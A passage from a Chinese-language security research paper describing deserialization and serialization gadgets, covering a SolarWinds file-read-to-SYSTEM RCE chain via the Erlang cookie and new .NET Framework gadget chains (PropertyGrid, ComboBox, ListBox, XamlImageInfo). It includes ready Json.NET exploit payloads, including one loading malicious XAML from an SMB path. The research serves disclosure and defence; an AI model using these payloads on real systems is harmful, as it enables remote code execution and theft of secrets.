    "System.IdentityModel.Tokens.SessionSecurityToken", 
    "System.Web.UI.MobileControls.SessionViewState+SessionViewStateHistoryItem", 
    "Microsoft.IdentityModel.Claims.WindowsClaimsIdentity", 
    "System.Security.Principal.WindowsPrincipal" 
};
```

代码段 110 SolarWinds - Implemented block list

我已经提供了 3 个允许绕过此黑名单的内部反序列化小工具。现在展示不安全的序列化小工具，该小工具也允许这样做。

SolarWinds RabbitMQ 序列化程序：

-   反序列化发送到 RabbitMQ 队列的攻击者对象。
-   如果对象属于 `SolarWinds.MessageBus.Models.Indication` 类型（该类型已经在 CVE-2022-36957 章节中描述过，因为其自定义转换器被滥用），就将其重新序列化并发送到 RabbitMQ 队列之一。在 CVE-2022-36957 补丁之后，Indication 类型仍然可以用于夹带任何类型的对象，只要它没有包含在黑名单中。



图 9 SolarWinds Information Service 中的反序列化和序列化

最后，攻击者可以从 RabbitMQ 队列中检索序列化对象。在这个阶段，它是我们已知可以强制 SolarWinds 序列化攻击者控制的对象，从而可能绕过小工具的黑名单。最后一步是找到一个合适的小工具。

已找到 `SolarWinds.Database.Setup.Internals.SqlFileScript` 类。

```plain
namespace SolarWinds.Database.Setup.Internals 
{ 
    internal class SqlFileScript : SqlScript 
    { 
        public SqlFileScript(FileInfo scriptFile) : base(scriptFile.FullName,  
null) // [1] 
        { 
            this.scriptFile = scriptFile; // [2] 
        }
        public override string Contents 
        { 
            get 
            { 
                string result; 
                if ((result = this.contents) == null) 
                { 
                    result = (this.contents =  
File.ReadAllText(this.scriptFile.FullName)); // [3] 
                } 
                return result; // [4] 
            } 
        } 

        private volatile string contents; 
        private readonly FileInfo scriptFile; 
    } 
}
```

代码段 111 Solarwinds - SqlFileScript serialization gadget

在 \[1\] 处，定义了一个带有单个参数的公共构造函数。在 `Json.NET` 反序列化期间可以调用它，并且 FileInfo 类型的参数可以被反序列化。

在 \[2\] 处，构造函数将 scriptFile 成员设置为从构造函数检索的值论点。

在 \[3\] 处，`get_Contents getter` 将尝试检索构造函数。

在 \[4\] 处，getter 返回文件内容。

这个简单而强大的序列化小工具允许通过单个 getter 获取完整的文件内容。它是一个理想的攻击目标，特别是因为我们可以从 RabbitMQ 队列中获取序列化的对象并获得文件内容。

最后一个问题是：攻击者能够在 SolarWinds 产品中读取文件后可以做什么？事实证明，以 SYSTEM 权限执行的文件读取原语允许读取 `C:\ProgramData\SolarWinds\Orion\RabbitMQ\.erlang.cookie` 文件。该 cookie 可以用于远程连接到 SolarWinds Erlang 服务（默认情况下它在所有接口上监听）并以 SYSTEM 权限执行命令。

总的来说，SqlFileScript 小工具允许检索 `.erlang.cookie` 文件，以及连接到 SolarWinds Erlang 实例所需的密钥。由于 Erlang 允许远程执行系统命令，攻击者可以利用这个任意文件读取序列化小工具来实现完整的以 SYSTEM 权限的远程代码执行。

以下代码片段展示了利用载荷的一部分，其中包含了 SqlFileScript 小工具。

```plain
"poc": { 
    "t": "SolarWinds.Database.Setup.Internals.SqlFileScript  
,SolarWinds.Database.Setup, Version=2022.4.0.0, Culture=neutral,  
PublicKeyToken=null", 
    "v": { 
        "$type": "SolarWinds.Database.Setup.Internals.SqlFileScript  
,SolarWinds.Database.Setup, Version=2022.4.0.0, Culture=neutral,  
PublicKeyToken=null", 
        "ScriptFile": { 
            "t": "System.IO.FileInfo, mscorlib", 
            "FullPath":  
"C:\\ProgramData\\SolarWinds\\Orion\\RabbitMQ\\.erlang.cookie", 
            "OriginalPath":  
"C:\\ProgramData\\SolarWinds\\Orion\\RabbitMQ\\.erlang.cookie" 
        } 
    } 
}
```

代码段 112 SolarWinds - fragment of serialization arbitrary file read gadget

第一个屏幕截图显示了对不安全序列化问题的利用，其中检索到 `.erlang.cookie` 文件。



图 10 SolarWinds Platform - 不安全的序列化导致任意文件读取

最后，获取的 secret 可以用来连接到 Erlang 服务，并使用 SYSTEM 权限（见下一个屏幕截图）。



图 11 SolarWinds Platform - 通过 Erlang 服务远程执行代码

本章介绍了 `SolarWinds Platform` 中的不安全序列化问题。内部 `SolarWinds SqlFileScript` 和第三方 `OptimisticLockedTextFile` 小工具可用于获取通过序列化任意文件的内容。最后，攻击者可以获取 Erlang 密钥 cookie 连接到暴露的 Erlang 服务，并以 SYSTEM 权限执行命令。

### 5 .NET Framework 中的新反序列化小工具

本章描述了我在 `.NET Framework` 中发现的新的反序列化小工具。本章还扩展了使用任意 getter 调用小工具串联序列化小工具的想法。

在这项研究中，我成功找到了 4 个新的任意 getter 调用小工具。它们可以与 `.NET Framework` 中的 2 个序列化小工具进行串联，形成新的远程代码执行反序列化小工具。它们可以应用于多种不同的序列化器，如 `Json.NET`、`MessagePack` 或 `XamlReader`。同时还找到了一个非串联的 RCE 小工具。

最后，将介绍 `.NET Framework` 中的几个非 RCE 小工具。主要展示了服务器端请求伪造小工具，它们允许使用不同的协议访问所选资源（如 HTTP、FTP 或 SMB）。这些小工具可以被视为 `Java URLDNS26` 小工具的更强大的姐妹工具，它在漏洞赏金猎人和渗透测试人员中非常强大。它们不仅有助于提高反序列化漏洞的检测率（尤其是在黑盒测试期间），而且由于可以执行实际请求，因此在实际利用中也可以使用。

以下表格列出了我在.NET Framework 中的小工具列表：

| **Gadget** | **Applicability** | **Effect** | **Description** |
| --- | --- | --- | --- |
| PropertyGrid | Probably majority  <br>of setter-based  <br>serializers, like:  <br>Json.NET,  <br>JavaScriptSerializer,  <br>XamlReader and  <br>others | Arbitrary getter call  <br>gadget. | Iterates over available  <br>getters in the given  <br>object and calls them. |
| ComboBox | As above | Arbitrary getter call  <br>gadget. | Calls selected getter. |
| ListBox | As above | Arbitrary getter call  <br>gadget. | Calls selected getter. |
| CheckedListBox | As above | Arbitrary getter call  <br>gadget. | Calls selected getter. |
| GetterSecurityException | Json.NET | RCE | Chain of arbitrary  <br>getter call gadget  <br>with  <br>SecurityException  <br>serialization gadget. |
| GetterSettingsPropertyValue | Json.NET,  <br>MessagePack,  <br>XamlReader | RCE | Chain of arbitrary  <br>getter call gadget  <br>with  <br>SettingsPropertyValue  <br>serialization gadget. |
| XamlImageInfo | Json.NET,  <br>MessagePack,  <br>XamlReader | RCE | Inner call to  <br>XamlReader.Load.  <br>In GAC variant  <br>(Json.NET), XAML is  <br>delivered through  <br>SMB (UNC path).  <br>In non-GAC variant,  <br>XAML can be  <br>delivered in a gadget. |
| GetterCompilerResults | Json.NET,  <br>MessagePack,  <br>XamlReader | RCE when chained  <br>with file write  <br>primitive | Chain of arbitrary  <br>getter call gadget  <br>with CompilerResults  <br>gadget. Local DLL  <br>loading. |
| PictureBox | Probably majority  <br>of setter-based  <br>serializers, like:  <br>Json.NET,  <br>JavaScriptSerializer,  <br>XamlReader and  <br>others | SSRF | SSRF with various  <br>protocols, like  <br>HTTP(S), FTP, SMB.  <br>SSRF with various  <br>protocols, like  <br>HTTP(S), FTP, SMB. |
| InfiniteProgressPage | As above | SSRF | SSRF with various  <br>protocols, like  <br>HTTP(S), FTP, SMB.  <br>SSRF with various  <br>protocols, like  <br>HTTP(S), FTP, SMB. |
| FileLogTraceListener | As above | Directory creation  <br>(potential DoS). | Creation of directory,  <br>what may lead to  <br>DoS. |

表 3 .NET Framework 中的新反序列化小工具

#### 5.1 任意 getter 调用小工具的想法

对不安全的序列化的利用是基于执行对象的 getter 方法，而在反序列化期间执行的 setter 方法不执行任何恶意操作。这个概念带来了另一个想法。如果我们能找到允许调用任意 getter 方法并将其与序列化小工具串联的反序列化小工具呢？

实际上，在 BHUSA 2017“Friday the 13th JSON Attacks”白皮书中已经介绍了一个导致任意 getter 方法调用的单个反序列化小工具：`System.Windows.Forms.BindingSource`。这个小工具基于两个 setter：`set_DataMember` 和 `set_DataSource`。

然而，这个小工具似乎不再适用，至少对于大多数序列化器（如`Json.NET`）和较新版本的`.NET Framework`。这是因为 BindingSource 类扩展了多个接口，使得序列化器将其视为列表。

```plain
public class BindingSource : Component, IBindingListView, IBindingList, IList,  
ICollection, IEnumerable, ITypedList, ICancelAddNew,  
ISupportInitializeNotification, ISupportInitialize, IcurrencyManagerProvider
```

代码段 113 System.Windows.Forms.BindingSource declaration

基于此，序列化器将不会调用 BindingSource 的 setter 方法。相反，它们将尝试使用像 Add 这样的方法来反序列化此对象。接下来的章节介绍了 4 个新的任意 getter 调用反序列化小工具。它们将与不安全的序列化小工具进行串联，以创建完整的远程代码执行链。

##### 5.1.1 PropertyGrid - 任意 getter 调用小工具

目标类：`System.Windows.Forms.PropertyGrid`

适用范围：可能所有基于 setter 的序列化程序——公共构造函数没有参数，并且接受 Object\[\] 类型对象的 setter 调用。

小工具（Json.NET）：

```plain
{ 
    "$type":"System.Windows.Forms.PropertyGrid, System.Windows.Forms, Version =  
4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089", 
    "SelectedObjects": 
    [ 
        { 
            "your":"object" 
        } 
    ] 
}
```

代码段 114 PropertyGrid – exemplary Json.NET gadget

描述：

这个小工具是通过 `set_SelectedObjects setter` 触发的，该 setter 很复杂并包含很多代码。重要的是，我们可以使用这个 setter 来调用 `PropertyGrid.Refresh` 方法：

```plain
public object[] SelectedObjects 
{ 
    set 
    { 
        try 
        { 
            this.FreezePainting = true; 
            this.SetFlag(128, false); 
            if (this.GetFlag(16)) 
            { 
                this.SetFlag(256, false); 
            } 
            .. 
            // Removed for readability 
            .. 
                    else 
                    { 
                        this.Refresh(false); 
                    } 
                    this.SetFlag(32, false);
                } 
                else 
                { 
                    this.Refresh(true); 
                } 
                if (this.currentObjects.Length != 0) 
                { 
                    this.SaveTabSelection(); 
                } 
            .. 
            // Removed for readability 
            ..
```

代码段 115 PropertyGrid - SelectedObjects setter and Refresh method calls

Refresh 方法触发了一系列多次调用，这些调用最终导致 `System.Windows.Forms.PropertyGridInternal.GridEntry.GetPropEntries`方法。该方法将遍历数组中提供的所有对象的成员，并调用它们相应的 getter 方法。

以下代码片段展示了这个小工具的完整调用堆栈。

```plain
System.Object System.ComponentModel.PropertyDescriptor::GetValue(System.Object) 

System.Windows.Forms.PropertyGridInternal.GridEntry[]  
System.Windows.Forms.PropertyGridInternal.GridEntry::GetPropEntries(System.Window 
s.Forms.PropertyGridInternal.GridEntry,System.Object,System.Type) 

System.Boolean  
System.Windows.Forms.PropertyGridInternal.GridEntry::CreateChildren(System.Boolea 
n) 

System.Void System.Windows.Forms.PropertyGridInternal.GridEntry::Refresh() 

System.Void System.Windows.Forms.PropertyGrid::UpdateSelection() 

System.Void System.Windows.Forms.PropertyGrid::RefreshProperties(System.Boolean) 

System.Void System.Windows.Forms.PropertyGrid::Refresh(System.Boolean) 

System.Void  
System.Windows.Forms.PropertyGrid::set_SelectedObjects(System.Object[])
```

代码段 116 PropertyGrid - gadget call stack

总而言之，我们可以向 `set_SelectedObjects setter` 提供一个对象数组。然后，它将调用所有已交付对象上的可访问的 getter。

##### 5.1.2 ComboBox - 任意 getter 调用小工具

目标类：`System.Windows.Forms.ComboBox`

适用范围：可能适用于所有基于 setter 的序列化器 - 公共构造函数没有参数，并且有多个接受对象数组或字符串的 setter。但是，setter 调用的顺序很重要。

小工具（Json.NET）：

```plain
{ 
    "$type":"System.Windows.Forms.ComboBox, System.Windows.Forms,  
Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089", 
    "Items": 
    [ 
        { 
            "your":"object" 
        } 
    ], 
    "DisplayMember":"MaliciousMember", 
    "Text":"whatever" 
}
```

代码段 117 ComboBox - exemplary JSON.NET gadget

描述：

这个任意 getter 调用是通过对 `set_Text setter` 的调用触发的。但必须进行一些准备工作，首先我们需要知道，ComboBox 继承自 `System.Windows.Forms.ListControl` 类。

```plain
public class ComboBox : ListControl 
{ 
    public ComboBox() 
    { 
        base.SetStyle(ControlStyles.UserPaint | ControlStyles.StandardClick |  
ControlStyles.UseTextForAccessibility, false); 
        this.requestedHeight = 150; 
        base.SetState2(2048, true); 
    } 
    .. 
    // Removed for readability 
    ..
```

代码段 118 ComboBox - inheritance

为了利用这个小工具，我们想要调用其 getter 的对象必须添加到 Items 集合中。然后，我们需要将 DisplayMember 成员（它继承自 ListControl）设置为我们想在提供的对象上调用的 getter 的名称。

```plain
public string DisplayMember 
{ 
    set 
    {
        BindingMemberInfo bindingMemberInfo = this.displayMember; 
        try 
        { 
            this.SetDataConnection(this.dataSource, new BindingMemberInfo(value),  
false); 
        } 
        catch 
        { 
            this.displayMember = bindingMemberInfo; 
        } 
    } 
}
```

代码段 119 ComboBox - DisplayMember member

最后，我们必须使用任何值调用 `set_Text setter`。

```plain
public override string Text 
{ 
    set 
    { 
        if (this.DropDownStyle == ComboBoxStyle.DropDownList &&  
!base.IsHandleCreated && !string.IsNullOrEmpty(value) &&  
this.FindStringExact(value) == -1) 
        { 
            return; 
        } 
        base.Text = value; 
        object selectedItem = this.SelectedItem; 
        if (!base.DesignMode) 
        { 
            if (value == null) 
            { 
                this.SelectedIndex = -1; 
                return; 
            } 
            if (value != null && (selectedItem == null || string.Compare(value,  
base.GetItemText(selectedItem), false, CultureInfo.CurrentCulture) != 0)) // [1] 
            { 
                int num = this.FindStringIgnoreCase(value); 
                if (num != -1) 
                { 
                    this.SelectedIndex = num; 
                } 
            } 
        } 
    } 
}
```

代码段 120 ComboBox - Text member

在 \[1\] 处，调用 `ListControl.GetItemText` 方法，其中添加到 Items 集合的对象是作为输入提供。

```plain
public string GetItemText(object item) 
{ 
    if (!this.formattingEnabled) 
    { 
        if (item == null) 
        { 
            return string.Empty; 
        } 
        item = this.FilterItemOnProperty(item, this.displayMember.BindingField);  
// [1] 
        if (item == null) 
        { 
            return ""; 
        } 
        return Convert.ToString(item, CultureInfo.CurrentCulture); 
    } 
    else 
    { 
        .. 
        // Removed for readability 
        ..
```

代码段 121 ListControl - GetItemText 方法

在 \[1\] 处，调用 `ListControl.GetItemText`。它接受攻击者控制的项和值派生自攻击者控制的 DisplayMember。

```plain
protected object FilterItemOnProperty(object item, string field) 
{ 
    if (item != null && field.Length > 0) 
    { 
        try 
        { 
            PropertyDescriptor propertyDescriptor; 
            if (this.dataManager != null) 
            { 
                propertyDescriptor =  
this.dataManager.GetItemProperties().Find(field, true); 
            } 
            else 
            { 
                propertyDescriptor =  
TypeDescriptor.GetProperties(item).Find(field, true); // [1] 
            } 
            if (propertyDescriptor != null) 
            { 
                item = propertyDescriptor.GetValue(item); // [2] 
            } 
        } 
        catch 
        { 
        } 
    }
    return item; 
}
```

代码段 122 ListControl - FilterItemOnProperty method leading to arbitrary getter call

在 \[1\] 处，根据提供的对象和提供的 DisplayMember 检索 PropertyDescriptor。

在 \[2\] 处，攻击者指定的 getter 被调用。

总的来说，ComboBox 小工具允许调用提供的对象上的选择的 getter。以下代码片段展示了一个示例小工具，它导致在 Items 列表中提供的对象上执行 `get_MaliciousMember getter`。

##### 5.1.3 ListBox - 任意 getter 调用小工具

目标类：`System.Windows.Forms.ListBox`

适用范围：可能适用于所有基于 setter 的序列化器 - 公共构造函数没有参数，并且有多个接受对象数组或字符串的 setter。但是，setter 调用的顺序很重要。

小工具（Json.NET）：

```plain
{ 
    "$type":"System.Windows.Forms.ListBox, System.Windows.Forms, Version=4.0.0.0,  
Culture=neutral, PublicKeyToken=b77a5c561934e089", 
    "Items": 
    [ 
        { 
            "your":"object" 
        } 
    ], 
    "DisplayMember":"MaliciousMember", 
    "Text":"whatever" 
}
```

代码段 123 ListBox – exemplary JSON.NET gadget

描述：

这个小工具与 ComboBox 小工具几乎相同，因为它也扩展了 ListControl，并实现了非常相似（尽管略有不同）的 `set_Text setter`。让我们确认 ListBox 继承自 ListControl。

```plain
public class ListBox : ListControl 
{ 
    public ListBox() 
    { 
        base.SetStyle(ControlStyles.UserPaint | ControlStyles.StandardClick |  
ControlStyles.UseTextForAccessibility, false); 
        base.SetState2(2048, true); 
        base.SetBounds(0, 0, 120, 96); 
        this.requestedHeight = base.Height; 
        this.PrepareForDrawing(); 
    }
    .. 
    // Removed for readability 
     ..
```

代码段 124 ListBox - inheritance from ListControl

在这个阶段，可以验证 `set_Text setter`。

```plain
public override string Text 
{ 
    set 
    { 
        base.Text = value; 
        if (this.SelectionMode != SelectionMode.None && value != null &&  
(this.SelectedItem == null || !value.Equals(base.GetItemText(this.SelectedItem))))  
// [1] 
        { 
            int count = this.Items.Count; 
            for (int i = 0; i < count; i++) 
            { 
                if (string.Compare(value, base.GetItemText(this.Items[i]), true,  
CultureInfo.CurrentCulture) == 0) 
                { 
                    this.SelectedIndex = i; 
                    return; 
                } 
            } 
        } 
    } 
}
```

代码段 125 ListBox - Text member

在 \[1\] 处调用了 `ListControl.GetItemText`。

代码流的其余部分与 ComboBox 小工具的情况相同，因此不会再次进行分析。攻击者可以利用这个类使用以下示例小工具，它导致在 Items 列表中提供的对象上执行 `get_MaliciousMember getter`。

##### 5.1.4 CheckedListBox - 任意 getter 调用小工具

目标类：`System.Windows.Forms.CheckedListBox`

适用范围：可能适用于所有基于 setter 的序列化器 - 公共构造函数没有参数，并且有多个接受对象数组或字符串的 setter。但是，setter 调用的顺序很重要。

小工具（Json.NET）：

```plain
{ 
    "$type":"System.Windows.Forms.CheckedListBox, System.Windows.Forms,  
Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089", 
    "Items": 
    [ 
        {
            "your":"object" 
        } 
    ], 
    "DisplayMember":"MaliciousMember", 
    "Text":"whatever" 
} 
```

代码段 126 CheckedListBox - exemplary Json.NET gadget

描述：

此小工具与 ListBox 小工具几乎完全相同，因为 CheckedListBox 继承自 ListBox 类。

```plain
public class CheckedListBox : ListBox 
{ 
    public CheckedListBox() 
    { 
        base.SetStyle(ControlStyles.ResizeRedraw, true); 
    } 
    .. 
    // Removed for readability
```

代码段 127 CheckedListBox - inheritance from ListBox

根据这一点，在反序列化期间的代码流将与 ListBox 的情况相同。尽管如此，这是一个不同的类，因此在防范反序列化问题时，也需要考虑这个小工具。

#### 5.2 将任意 Getter 调用小工具与不安全的序列化小工具结合使用

在这个阶段，我们有 4 个任意 Getter 调用小工具和 2 个基于 Getter 调用的序列化 RCE 小工具。根据这一点，可以构建 8 个唯一的 `.NET Framework` 小工具，将这两种类型的小工具链在一起：

-   PropertyGrid+SecurityException。
-   PropertyGrid+SettingsPropertyValue。
-   ListBox+SecurityException。
-   ListBox+SettingsPropertyValue。
-   ComboBox+SecurityException。
-   ComboBox+SettingsPropertyValue。
-   CheckedListBox+SecurityException。
-   CheckedListBox+SettingsPropertyValue。

当然，还可以将任意 Getter 调用小工具与 CompilerResults 本地 DLL 小工具、第三方库中包含的序列化小工具以及目标产品代码库中存在的小工具链在一起。可以注意到，基于 Getter 调用的小工具显著增加了攻击面，并且可以作为对硬化目标的有力武器。

注意：基于 Getter 的小工具对于 `Json.NET` 有一个小限制。考虑这样一种情况：

-   TypeNameHandling 设置为 None。
-   在我们的反序列化攻击中，我们针对一个通过属性定义了不安全 TypeNameHandling 的成员。

可以按以下方式定义此类成员：

```plain
[JsonProperty(TypeNameHandling = TypeNameHandling.All)] 
public object someMember;
```

代码段 128 Json.NET - exemplary member with TypeNameHandling attribute

基于 Getter 调用链的小工具在这种情况下不起作用。这是因为属性中定义的 `TypeNameHandling` 设置仅应用于第一个对象（我们的 Getter 调用小工具，比如 `PropertyGrid`）。然而，第二个对象（例如 `SettingsPropertyValue`）将以 `TypeNameHandling` 为 None 进行反序列化。

接下来的章节将展示两个将任意 Getter 调用与序列化小工具链在一起的示例。

##### 5.2.1 示例 - PropertyGrid + SecurityException 小工具

基于 `SecurityException` 的小工具适用于 `Json.NET`，因为序列化器需要同时支持 Serializable 接口和 setters。

`SecurityException` 类可以通过 Getter 调用（调用 `BinaryFormatter.Deserialize` 方法）导致远程代码执行。然而，恶意的 BinaryFormatter 小工具无法通过 Setter 调用传递，这使得这个序列化小工具难以利用。

与任意 Getter 调用的组合使得这个小工具非常强大，因为它允许在反序列化期间实现完整的远程代码执行。让我们从一个示例小工具开始分析：

```plain
{ 
    "$type":"System.Windows.Forms.PropertyGrid, System.Windows.Forms, Version =  
4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089", 
    "SelectedObjects": 
    [ 
        { 
            "$type":"System.Security.SecurityException", 
            "ClassName":"System.Security.SecurityException", 
            "Message":"Security error.", 
            "Data":null, 
            "InnerException":null, 
            "HelpURL":null, 
            "StackTraceString":null, 
            "RemoteStackTraceString":null, 
            "RemoteStackIndex":0, 
            "ExceptionMethod":null, 
            "HResult":-2146233078, 
            "Source":null, 
            "WatsonBuckets":null, 
            "Action":0, 
            "FirstPermissionThatFailed":null, 
            "Demanded":null, 
            "GrantedSet":null,
            "RefusedSet":null, 
            "Denied":null, 
            "PermitOnly":null, 
            "Assembly":null, 
            "Method":"base64-encoded-binaryformatter-gadget", 
            "Method_String":null, 
            "Zone":0, 
            "Url":null 
        } 
    ] 
}
```

代码段 129 PropertyGrid+SecurityException - exemplary JSON.NET gadget

可以注意到，小工具由三个主要部分组成：

-   `PropertyGrid` 小工具。
-   `SecurityException` 小工具，包含在 `PropertyGrid.SelectedObjects` 成员中。
-   `SecurityException.Method` 成员中的 Base64 编码的 `BinaryFormatter` 小工具。

本文已经描述了与这些小工具相关的所有方法，因此我们可以继续进行反序列化流程的可视化。



图 12 PropertyGrid+SecurityException - 反序列化流可视化

该图显示了反序列化流程中最重要的部分。首先，`Json.NET` 会尝试反序列化 `SecurityException`。由于此序列化程序支持 Serializable 特殊构造函数，因此它将能够使用攻击者控制的字节数组设置 `m_serializedMethodInfo` 成员（相反到基于 setter 的序列化，攻击者无法完全控制此成员）。

在下一步中，反序列化的 SecurityException 将被传递到 `PropertyGrid.set_SelectedObjects setter` 的对象数组中。最终，代码流将导致执行 `SecurityException.get_Method`，从而调用带有攻击者控制的流的 `BinaryFormatter.Deserialize` 方法。

总的来说，这种任意 Getter 调用和序列化小工具的组合可以成功实现远程代码执行。

##### 5.2.2 示例 – ComboBox + SettingsPropertyValue 小工具

基于 `SettingsPropertyValue` 的小工具适用于至少 `Json.NET`、`XamlReader` 和 `MessagePack`，因为在反序列化过程中序列化器需要调用一个带有单参数构造函数。

已经确定 `SettingsPropertyValue` 类可以通过 Getter 调用（调用 `BinaryFormatter.Deserialize` 方法）导致远程代码执行。该类在不安全的序列化过程中也已经成功被滥用。

与任意 Getter 调用的结合允许在反序列化过程中实现完整的远程代码执行。让我们从 `Json.NET` 的一个示例小工具开始分析：

```plain
{ 
    "$type":"System.Windows.Forms.ComboBox, System.Windows.Forms, Version =  
4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089", 
    "Items": 
    [ 
        { 
            "$type":"System.Configuration.SettingsPropertyValue, System", 
            "Name":"test", 
            "IsDirty":false, 
            "SerializedValue": 
            { 
                "$type":"System.Byte[], mscorlib", 
                "$value":"base64-encoded-binaryformatter-gadget" 
            }, 
            "Deserialized":false 
        } 
    ], 
    "DisplayMember":"PropertyValue", 
    "Text":"whatever" 
}
```

代码段 130 ComboBox+SettingsPropertyValue - exemplary JSON.NET gadget

可以注意到，小工具由四个主要部分组成：

-   ComboBox 小工具。
-   `SettingsPropertyValue` 小工具，包含在 `ComboBox.Items` 成员中。
-   `SettingsPropertyValue.SerializedValue` 中的 Base64 编码的 `BinaryFormatter` 小工具
-   成员。
-   `ComboBox.DisplayMember` 设置为 `PropertyValue` 字符串。

本文已经描述了与这些小工具相关的所有方法，因此我们可以处理反序列化流程的可视化。



图 13 ComboBox+SettingsPropertyValue – 反序列化流可视化

该图示呈现了反序列化流程中最重要的部分。首先，`Json.NET` 将尝试反序列化 `SettingsPropertyValue` 对象。在反序列化过程中，`SerializedValue` 字节数组将被设置为攻击者选择的 `BinaryFormatter` 小工具。

当 `SettingsPropertyValue` 小工具被正确反序列化后，它将被添加为 `ComboBox` 对象的一个项目。然后，`DisplayMember` 将被设置为 `PropertyValue`。最后，反序列化器将调用 `ComboBox.set_Text setter`。该 setter 最终将导致 `SettingsPropertyValue.get_PropertyValue` 的调用。由于 `PropertyValue Getter` 导致了使用攻击者控制的输入调用 `BinaryFormatter.Deserialize`，因此该小工具会导致远程代码执行。

#### 5.3 XamlImageInfo - RemoteCodeExecution 小工具

目标类：`System.Activities.Presentation.Internal.ManifestImages+XamlImageInfo`

适用范围：Json.NET、MessagePack（可能存在与构造函数中的抽象类型相关的问题）以及其他能够调用带参数构造函数的序列化器。

小工具（Json.NET），variant 1（GAC）：

此小工具允许从文件加载恶意 XAML。可以提供 UNC 路径，因此文件可以从远程 SMB 服务器加载。

```plain
{ 
    "$type":"System.Activities.Presentation.Internal.ManifestImages+XamlImageInfo,  
System.Activities.Presentation, Version=4.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
    "stream": 
    { 
        "$type":"Microsoft.Build.Tasks.Windows.ResourcesGenerator+LazyFileStream,  
PresentationBuildTasks, Version=4.0.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35", 
        "path":"\\\\192.168.1.100\\poc\\malicious.xaml" 
    } 
}
```

代码段 131 XamlImageInfo gadget - Json.NET GAC version

小工具（Json.NET），variant 2（non-GAC）：

此小工具允许直接传递恶意 XAML，尽管需要非 `GAC DLL：Microsoft.Web.Deployment.dll`。

```plain
{ 
    "$type":"System.Activities.Presentation.Internal.ManifestImages+XamlImageInfo,  
